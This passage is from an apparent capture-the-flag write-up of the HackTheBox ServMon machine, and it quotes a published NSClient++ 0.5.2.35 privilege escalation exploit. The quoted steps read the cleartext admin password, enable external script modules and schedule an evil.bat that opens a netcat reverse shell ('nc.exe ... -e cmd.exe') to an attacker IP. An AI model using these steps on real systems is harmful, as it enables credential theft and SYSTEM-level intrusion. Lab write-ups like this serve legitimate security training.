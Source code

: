 okay, let's find the vulnerability and exploit using searchploit

![06](/assets/images/htb-machine-servmon/06.png)

use NSClient++ 0.5.2.35 - Privilege Escalation and it shows how to “privilege escalation" using nsclient++

```
Exploit Author: bzyo
Twitter: @bzyo_
Exploit Title: NSClient++ 0.5.2.35 - Privilege Escalation
Date: 05-05-19
Vulnerable Software: NSClient++ 0.5.2.35
Vendor Homepage: http://nsclient.org/
Version: 0.5.2.35
Software Link: http://nsclient.org/download/
Tested on: Windows 10 x64

Details:
When NSClient++ is installed with Web Server enabled, local low privilege users have the ability to read the web administator's password in cleartext from the configuration file.  From here a user is able to login to the web server and make changes to the configuration file that is normally restricted.  

The user is able to enable the modules to check external scripts and schedule those scripts to run.  There doesn't seem to be restrictions on where the scripts are called from, so the user can create the script anywhere.  Since the NSClient++ Service runs as Local System, these scheduled scripts run as that user and the low privilege user can gain privilege escalation.  A reboot, as far as I can tell, is required to reload and read the changes to the web config.  

Prerequisites:
To successfully exploit this vulnerability, an attacker must already have local access to a system running NSClient++ with Web Server enabled using a low privileged user account with the ability to reboot the system.

Exploit:
1. Grab web administrator password
- open c:\program files\nsclient++\nsclient.ini
or
- run the following that is instructed when you select forget password
   C:\Program Files\NSClient++>nscp web -- password --display
   Current password: SoSecret

2. Login and enable following modules including enable at startup and save configuration
- CheckExternalScripts
- Scheduler

3. Download nc.exe and evil.bat to c:\temp from attacking machine
   @echo off
   c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe

4. Setup listener on attacking machine
   nc -nlvvp 443

5. Add script foobar to call evil.bat and save settings
- Settings > External Scripts > Scripts
- Add New
   - foobar
      command = c:\temp\evil.bat
```